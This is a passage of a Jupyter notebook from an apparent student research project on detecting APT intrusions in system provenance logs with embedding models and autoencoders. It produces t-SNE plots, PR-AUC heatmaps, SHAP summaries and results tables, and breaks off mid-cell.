  -> Found dictionary keys: ['X', 'y']




  -> Plot saved as tsne_cadets_ProcessExec.png

Processing plot 3/5 for clearscope...
  -> Found dictionary keys: ['X', 'y']




  -> Plot saved as tsne_clearscope_ProcessAll.png

Processing plot 4/5 for theia...
  -> Found dictionary keys: ['X', 'y']




  -> Plot saved as tsne_theia_ProcessNetflow.png

Processing plot 5/5 for trace...
  -> Found dictionary keys: ['X', 'y']




  -> Plot saved as tsne_trace_ProcessNetflow.png



In [4]:
import numpy as np
import matplotlib.pyplot as plt
import seaborn as sns
from sklearn.manifold import TSNE
import pickle
import os

# Set the visual style to match the provided image
sns.set_theme(style="whitegrid")

# Define the experiments with your exact .pkl file paths
experiments = [
    {
        "performer": "5dir", 
        "context": "ProcessNetflow", 
        "model_combo": "gtr_t5_large + Attention AE",
        "data_path": "final_train_test_split_gtr_t5_large/5dir/test/ProcessNetflow.pkl"
    },
    {
        "performer": "cadets", 
        "context": "ProcessExec", 
        "model_combo": "mpnet + Baseline",
        "data_path": "final_train_test_split_mpnet/cadets/test/ProcessExec.pkl"
    },
    {
        "performer": "clearscope", 
        "context": "ProcessAll", 
        "model_combo": "e5_mistral + Deep SVDD",
        "data_path": "final_train_test_split_e5_mistral/clearscope/test/ProcessAll.pkl"
    },
    {
        "performer": "theia", 
        "context": "ProcessNetflow", 
        "model_combo": "gtr_t5_large + DAE",
        "data_path": "final_train_test_split_gtr_t5_large/theia/test/ProcessNetflow.pkl"
    },
    {
        "performer": "trace", 
        "context": "ProcessNetflow", 
        "model_combo": "modernbert_large + Baseline",
        "data_path": "final_train_test_split_modernbert_large/trace/test/ProcessNetflow.pkl"
    }
]

for i, exp in enumerate(experiments, start=1):
    file_path = exp["data_path"]
    
    print(f"Processing plot {i}/5 for {exp['performer']}...")
    
    if not os.path.exists(file_path):
        print(f"  -> File not found: {file_path}. Skipping.\n")
        continue

    # Load the actual test data
    with open(file_path, 'rb') as f:
        test_data = pickle.load(f)
        
    # --- SMART DATA LOADER ---
    if isinstance(test_data, dict):
        keys = list(test_data.keys())
        print(f"  -> Found dictionary keys: {keys}")
        
        # Try to automatically extract using common key names
        if 'embeddings' in keys and 'labels' in keys:
            X, y = test_data['embeddings'], test_data['labels']
        elif 'X_test' in keys and 'y_test' in keys:
            X, y = test_data['X_test'], test_data['y_test']
        elif 'X' in keys and 'y' in keys:
            X, y = test_data['X'], test_data['y']
        else:
            # Fallback if standard names aren't used
            print(f"  -> ERROR: Unsure which keys map to embeddings and labels.")
            print(f"  -> Please manually edit line 63 to use the correct keys from: {keys}\n")
            continue 
    elif isinstance(test_data, (list, tuple)):
        X, y = test_data[0], test_data[1]
    else:
        print(f"  -> ERROR: Unrecognized pickle format. Skipping.\n")
        continue
    # -------------------------

    # Convert to numpy arrays if they are tensors
    if hasattr(X, 'numpy'):
        X = X.numpy()
    if hasattr(y, 'numpy'):
        y = y.numpy()

    # Ensure y is a 1D array for boolean indexing
    y = np.array(y).flatten()

    # Extract just the embedding model name for the title
    embedding_model = exp["model_combo"].split(" + ")[0].replace("_", " ")
    
    # Perform t-SNE dimensionality reduction
    tsne = TSNE(n_components=2, random_state=42, perplexity=30)
    X_tsne = tsne.fit_transform(X)

    # Plotting
    plt.figure(figsize=(8, 6))

    # Plot Normal (Benign) - mapped to label 0
    plt.scatter(X_tsne[y == 0, 0], X_tsne[y == 0, 1],
                c='mediumblue', marker='o', s=15, alpha=0.5, label='Normal (Benign)')

    # Plot Anomaly (APT) - mapped to label 1
    plt.scatter(X_tsne[y == 1, 0], X_tsne[y == 1, 1],
                c='orange', marker='x', s=40, alpha=0.9, label='Anomaly (APT)')

    # Formatting
    title_text = f"T-SNE of {embedding_model.upper()} Embeddings\n({exp['performer'].upper()} - {exp['context']})"
    plt.title(title_text, fontsize=13, pad=10)
    plt.legend(loc='upper left', frameon=True, shadow=True, facecolor='white')
    plt.tight_layout()
    
    # Save and show
    plt.savefig(f"tsne_{exp['performer']}_{exp['context']}.png", dpi=300)
    plt.show()
    print(f"  -> Plot saved as tsne_{exp['performer']}_{exp['context']}.png\n")

### Heatmaps for Best Context.

In [2]:
import pandas as pd
import matplotlib.pyplot as plt
import seaborn as sns
import glob
import os

# ==========================================
# 1. CONFIGURATION
# ==========================================
target_combinations = [
    {"performer": "5dir", "context": "ProcessNetflow"},
    {"performer": "cadets", "context": "ProcessExec"},
    {"performer": "clearscope", "context": "ProcessAll"},
    {"performer": "theia", "context": "ProcessNetflow"},
    {"performer": "trace", "context": "ProcessNetflow"}
]

TARGET_METRIC = "PR-AUC" 
CSV_DIRECTORY = r"D:\Waleed FYP" 

# The definitive list of all 17 models based on your directory
EXPECTED_MODELS = [
    "bge_m3", "contriever", "e5_mistral", "gte_large_v1_5", 
    "gtr_t5_large", "jina", "linq_mistral", "llm2vec_llama3", 
    "modernbert_large", "mpnet", "multilingual_e5", "nomic", 
    "nvembed_v2", "qwen2_hf", "sfr_mistral", "stella_400m", "uae_large_v1"
]

# ==========================================
# 2. DATA AGGREGATION
# ==========================================
print("Loading CSV files...")
csv_pattern = os.path.join(CSV_DIRECTORY, "UPDATED_NEW_comprehensive_metrics_*.csv")
csv_files = glob.glob(csv_pattern)

if not csv_files:
    print(f"Error: No CSV files found matching {csv_pattern}")
    exit()

df_list = []
for file in csv_files:
    df = pd.read_csv(file)
    filename = os.path.basename(file)
    embed_name = filename.replace("UPDATED_NEW_comprehensive_metrics_", "").replace(".csv", "")
    df['Embedding Model'] = embed_name
    df_list.append(df)

master_df = pd.concat(df_list, ignore_index=True)

# ==========================================
# 3. GENERATE THE 5 HEATMAPS
# ==========================================
for combo in target_combinations:
    performer = combo["performer"]
    context = combo["context"]
    
    print(f"Generating heatmap for {performer.upper()} in context '{context}'...")
    
    df_filtered = master_df[(master_df['Performer'] == performer) & (master_df['Context'] == context)]
    
    if df_filtered.empty:
        print(f"  -> No data found for {performer} - {context}. Skipping.\n")
        continue
        
    pivot_df = df_filtered.pivot_table(
        index='Embedding Model',
        columns='Model',
        values=TARGET_METRIC,
        aggfunc='mean'
    )
    
    # [CRITICAL FIX] Force the Y-axis to contain all 17 models exactly as named
    pivot_df = pivot_df.reindex(EXPECTED_MODELS)
    
    # Fill missing values with 0 (Optional: prevents Seaborn from crashing if a whole row is NaN)
    pivot_df = pivot_df.fillna(0)
    
    plt.figure(figsize=(16, 10))
    sns.set_theme(style="white")
    
    # Use a custom mask to hide the '0' annotations for missing data, if desired.
    # Here, we plot normally. Missing data will show as 0.0000.
    ax = sns.heatmap(
        pivot_df,
        annot=True,          
        fmt=".4f",           
        cmap="YlGnBu",       
        linewidths=.5,       
        cbar_kws={'label': TARGET_METRIC} 
    )
    
    title_text = f"{performer.upper()} - {TARGET_METRIC} Heatmap\n(Context: {context} | Embeddings vs. Autoencoders)"
    plt.title(title_text, fontsize=16, pad=20)
    
    plt.xlabel("Autoencoder Architectures", fontsize=12, labelpad=15)
    plt.ylabel("Embedding Models", fontsize=12, labelpad=15)
    
    plt.xticks(rotation=45, ha='right')
    plt.yticks(rotation=0)
    
    plt.tight_layout()
    
    save_filename = os.path.join(CSV_DIRECTORY, f"heatmap_{performer}_{context}_{TARGET_METRIC}.jpg")
    plt.savefig(save_filename, dpi=300, bbox_inches='tight')
    plt.close() 
    
    print(f"  -> Saved as {save_filename}\n")

print("All configured heatmaps generated successfully.")

Loading CSV files...
Generating heatmap for 5DIR in context 'ProcessNetflow'...
  -> Saved as D:\Waleed FYP\heatmap_5dir_ProcessNetflow_PR-AUC.jpg

Generating heatmap for CADETS in context 'ProcessExec'...
  -> Saved as D:\Waleed FYP\heatmap_cadets_ProcessExec_PR-AUC.jpg

Generating heatmap for CLEARSCOPE in context 'ProcessAll'...
  -> Saved as D:\Waleed FYP\heatmap_clearscope_ProcessAll_PR-AUC.jpg

Generating heatmap for THEIA in context 'ProcessNetflow'...
  -> Saved as D:\Waleed FYP\heatmap_theia_ProcessNetflow_PR-AUC.jpg

Generating heatmap for TRACE in context 'ProcessNetflow'...
  -> Saved as D:\Waleed FYP\heatmap_trace_ProcessNetflow_PR-AUC.jpg

All configured heatmaps generated successfully.


### Reconstruction error figure for 4 models (4 in 1)

### Find a way to add the complete metrics Heatmap in the appendix and the 1st best model in the paper 

### Beeswarm GLOBAL SHAP

=== GENERATING GLOBAL SHAP SUMMARY PLOTS (BEESWARM) ===

🚀 Generating Global SHAP Summary for: 5DIR


C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_11480\2744044780.py:68: FutureWarning: The NumPy global RNG was seeded by calling `np.random.seed`. In a future version this function will no longer use the global RNG. Pass `rng` explicitly to opt-in to the new behaviour and silence this warning.
  shap.summary_plot(


✅ Saved plot as 'global_shap_beeswarm_5dir.png'





🚀 Generating Global SHAP Summary for: CADETS


C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_11480\2744044780.py:68: FutureWarning: The NumPy global RNG was seeded by calling `np.random.seed`. In a future version this function will no longer use the global RNG. Pass `rng` explicitly to opt-in to the new behaviour and silence this warning.
  shap.summary_plot(


✅ Saved plot as 'global_shap_beeswarm_cadets.png'





🚀 Generating Global SHAP Summary for: CLEARSCOPE


C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_11480\2744044780.py:68: FutureWarning: The NumPy global RNG was seeded by calling `np.random.seed`. In a future version this function will no longer use the global RNG. Pass `rng` explicitly to opt-in to the new behaviour and silence this warning.
  shap.summary_plot(


✅ Saved plot as 'global_shap_beeswarm_clearscope.png'





🚀 Generating Global SHAP Summary for: THEIA


C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_11480\2744044780.py:68: FutureWarning: The NumPy global RNG was seeded by calling `np.random.seed`. In a future version this function will no longer use the global RNG. Pass `rng` explicitly to opt-in to the new behaviour and silence this warning.
  shap.summary_plot(


✅ Saved plot as 'global_shap_beeswarm_theia.png'





🚀 Generating Global SHAP Summary for: TRACE


C:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Temp\ipykernel_11480\2744044780.py:68: FutureWarning: The NumPy global RNG was seeded by calling `np.random.seed`. In a future version this function will no longer use the global RNG. Pass `rng` explicitly to opt-in to the new behaviour and silence this warning.
  shap.summary_plot(


✅ Saved plot as 'global_shap_beeswarm_trace.png'




In [24]:
# ==========================================
# CELL 11: Global SHAP Summary Plot (Beeswarm)
# ==========================================
import shap
import matplotlib.pyplot as plt
import numpy as np
import pandas as pd
from sklearn.feature_extraction.text import TfidfVectorizer

print("=== GENERATING GLOBAL SHAP SUMMARY PLOTS (BEESWARM) ===")

# Loop through the performers you care about
for performer in selected_target_indices.keys():
    print(f"\n🚀 Generating Global SHAP Summary for: {performer.upper()}")
    
    # --------------------------------------------------
    # 1. Rebuild the exact TF-IDF Feature Names (Vocabulary)
    # --------------------------------------------------
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    
    df = df[[text_col, label_col]].dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    
    # We need the full test data here to match the SHAP matrix
    anomaly_df = df[df[label_col] == 1]
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    
    # Fit supervisor style
    vectorizer = TfidfVectorizer(max_features=None)
    vectorizer.fit(train_texts) 
    tokens = np.array(vectorizer.get_feature_names_out())
    
    # Transform test set to get the feature values (for the Red/Blue color map)
    X_test_tfidf = vectorizer.transform(test_texts).toarray()
    
    # --------------------------------------------------
    # 2. Retrieve & Format SHAP Values
    # --------------------------------------------------
    shap_vals_raw = all_performers_shap_values[performer]
    
    # DeepExplainer outputs can be nested differently depending on torch version.
    # We must ensure we pass a clean 2D array: (num_samples, num_features)
    if isinstance(shap_vals_raw, list):
        shap_vals_2d = shap_vals_raw[0]
    else:
        shap_vals_2d = shap_vals_raw
        
    # If the output still has a 3rd dimension (e.g., shape is N x Features x 1), squeeze it
    if len(shap_vals_2d.shape) > 2:
        shap_vals_2d = np.squeeze(shap_vals_2d)

    # --------------------------------------------------
    # 3. Plot the Global Beeswarm
    # --------------------------------------------------
    plt.figure(figsize=(10, 6))
    
    # Generate the plot!
    # We use a random sample of 500 logs if the test set is massive to prevent the 
    # dots from overlapping too much and making the plot unreadable.
    sample_size = min(500, X_test_tfidf.shape[0])
    sample_indices = np.random.choice(X_test_tfidf.shape[0], sample_size, replace=False)
    
    shap.summary_plot(
        shap_vals_2d[sample_indices], 
        X_test_tfidf[sample_indices], 
        feature_names=tokens,
        max_display=15,       # Show top 15 most important words
        show=False            # Don't show immediately so we can add a custom title
    )
    
    plt.title(f"[{performer.upper()}] Global SHAP \nImpact on Anomaly Score", fontsize=14, fontweight='bold', pad=20)
    plt.tight_layout()
    
    # Save the figure
    save_filename = f"global_shap_beeswarm_{performer}.png"
    plt.savefig(save_filename, dpi=300, bbox_inches='tight')
    print(f"✅ Saved plot as '{save_filename}'")
    
    plt.show()
    plt.close()

In [4]:
import pickle

# Point this to whatever your most recent save file is if all_data isn't in memory
FILE_NAME = 'all_data_with_sentences.pkl'

# Load the data only if it isn't already active in the notebook
if 'all_data' not in locals() and 'all_data' not in globals():
    print(f"Loading data from {FILE_NAME}...\n")
    with open(FILE_NAME, 'rb') as f:
        all_data = pickle.load(f)
else:
    print("Using 'all_data' already loaded in memory...\n")

# Print the columns for each DataFrame
for performer, contexts in all_data.items():
    print(f"========== PERFORMER: {performer.upper()} ==========")
    for context, df in contexts.items():
        columns = df.columns.tolist()
        print(f"➔ {context}")
        print(f"  Columns ({len(columns)}): {columns}\n")

Loading data from all_data_with_sentences.pkl...

========== PERFORMER: 5DIR ==========
➔ ProcessEvent
  Columns (32): ['EVENT_ACCEPT', 'EVENT_BIND', 'EVENT_CHANGE_PRINCIPAL', 'EVENT_CHECK_FILE_ATTRIBUTES', 'EVENT_CLOSE', 'EVENT_CONNECT', 'EVENT_CREATE_OBJECT', 'EVENT_CREATE_THREAD', 'EVENT_EXECUTE', 'EVENT_EXIT', 'EVENT_FCNTL', 'EVENT_FORK', 'EVENT_LINK', 'EVENT_LOADLIBRARY', 'EVENT_LOGIN', 'EVENT_LOGOUT', 'EVENT_MODIFY_FILE_ATTRIBUTES', 'EVENT_OPEN', 'EVENT_OTHER', 'EVENT_READ', 'EVENT_RECVFROM', 'EVENT_RECVMSG', 'EVENT_RENAME', 'EVENT_SENDMSG', 'EVENT_SENDTO', 'EVENT_SIGNAL', 'EVENT_UNLINK', 'EVENT_UPDATE', 'EVENT_WRITE', 'None', 'label', 'sentence']

➔ ProcessExec
  Columns (373): ['\\windows\\microsoft.net\\framework64\\v4.0.30319\\mscorsvw.exe -startupevent 168 -interruptevent 0 -ngenprocess 17c -pipe 174 -comment "ngen worker process"', '\\windows\\microsoft.net\\framework64\\v4.0.30319\\mscorsvw.exe -startupevent 17c -interruptevent 0 -ngenprocess 130 -pipe 178 -comment "ngen w

### Final tables

In [5]:
import pandas as pd

# 1. Load the master dataset
file_name = 'master_results_all_contexts_all_performers.csv'
df = pd.read_csv(file_name)

# 2. Clean up the Context column
# This splits strings like "ProcessAll_jina" by the "_" and keeps only the first part ("ProcessAll")
df['Context'] = df['Context'].str.split('_').str[0]

# 3. Create the 5x5 pivot table
# Because we cleaned the Contexts, they will now perfectly group into your 5 main categories
summary_table = df.pivot_table(
    index='Performer', 
    columns='Context', 
    values='PR-AUC', 
    aggfunc='max'
).round(4) # Rounds the scores to 4 decimal places

# 4. Save the formatted table to a new CSV
output_filename = 'best_prauc_5x5_table.csv'
summary_table.to_csv(output_filename)

print(f"Table successfully generated and saved as '{output_filename}'.")
print("\nPreview of the 5x5 table:")
print(summary_table)

Table successfully generated and saved as 'best_prauc_5x5_table.csv'.

Preview of the 5x5 table:
Context     ProcessAll  ProcessEvent  ProcessExec  ProcessNetflow  \
Performer                                                           
5dir            0.3532        0.0491       0.4053          0.8304   
cadets          0.5206        0.0057       0.6768          0.6457   
clearscope      0.8759        0.6928       0.7716          0.7956   
theia           0.8527        0.8801       0.8659          0.9684   
trace           0.8403        0.3013       0.8359          0.8541   

Context     ProcessParent  
Performer                  
5dir               0.0743  
cadets             0.5004  
clearscope         0.0000  
theia              0.5865  
trace              0.3885  


In [7]:
df = pd.read_csv('best_prauc_5x5_table.csv', index_col=0)
df

,ProcessAll,ProcessEvent,ProcessExec,ProcessNetflow,ProcessParent
Performer,,,,,
5dir,0.3532,0.0491,0.4053,0.8304,0.0743
cadets,0.5206,0.0057,0.6768,0.6457,0.5004
clearscope,0.8759,0.6928,0.7716,0.7956,0.0000
theia,0.8527,0.8801,0.8659,0.9684,0.5865
trace,0.8403,0.3013,0.8359,0.8541,0.3885


In [5]:
import pandas as pd

# 1. Load the master dataset
file_name = 'master_results_all_contexts_all_performers.csv'
df = pd.read_csv(file_name)

# Clean the Context column so it says 'ProcessAll' instead of 'ProcessAll_jina'
df['Context'] = df['Context'].str.split('_').str[0]

# 2. Find the single best row for each Performer based on the highest PR-AUC
best_indices = df.groupby('Performer')['PR-AUC'].idxmax()
best_results = df.loc[best_indices].copy()

# 3. Create the 'Best Model Combination' by merging the Embedding Model and the AE
# This will output something like: "bge_m3 + AutoencoderX"
best_results['Best Model Combination'] = best_results['Model_Name'] + ' + ' + best_results['Model'].astype(str)

# 4. Rename existing columns to match your target table headers
best_results = best_results.rename(columns={
